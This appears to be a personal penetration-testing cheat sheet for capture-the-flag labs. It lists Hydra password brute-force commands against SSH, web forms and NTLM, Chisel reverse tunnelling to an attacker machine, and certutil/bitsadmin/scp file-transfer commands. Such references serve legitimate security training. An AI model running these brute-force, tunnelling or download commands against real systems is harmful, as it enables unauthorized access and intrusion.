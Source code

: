 

# Encryption & Decryption 

## vigenere-cipher 

https://fww.guballa.de/vigenere-solver

example: MYKAHODTQ{RVG_YVGGK_FAL_WXF} 

# Password Bruteforce

## Hydra

hydra -l admin -P /usr/share/wordlists/rockyou.txt -f 10.10.251.51 http-get /inferno/ -t 64

hydra -l username -P /root/Desktop/Test.txt url.zz.za http-post-form "/portal/xlogin/:ed=^USER^&pw=^PASS^:S=302"

hydra -V -l ghost -P test.txt 10.10.78.81 -s 8080 http-post-form -m “/login.html?-1.-loginForm:urlfragment=&username=^USER^&password=^PASS^&Login= Login:’Login failed'”

hydra -l none -P rockyou.txt 10.10.10.43 http-post-form "/department/login.php:username=admin&password=^PASS^:Invalid Password" -t 64 -V

hydra -l meliodas -P /usr/share/wordlists/rockyou.txt 10.10.123.199 ssh

hydra -I -V -L ./usernames.txt -p 'Changeme123' ntlmauth.za.tryhackme.com http-get '/:A=NTLM:F=401'


# Port Forwarding

Chisel

	On kali machine start server : chisel server -p 8000 --reverse
	
	On the Box : ./chisel client 10.9.172.114:8000 R:8001:127.0.0.1:6666 (Forwarding internal port 6666 to attaker box as port 8001)

SSH

ssh sys-internal@10.10.255.20 -i id_rsa -L 8111:localhost:8111

# File transfers

Windows :

	certutil -urlcache -f http://<ip>/uri output.ext 
	
	bitsadmin /transfer job https://the.earth.li/~sgtatham/putty/latest/w64/putty.exe C:\Temp\putty.exe

scp file.txt user@10.10.10.x:/tmp

scp -i id_rsa hermonine@10.10.222.199:/srv/time-turner/swagger .
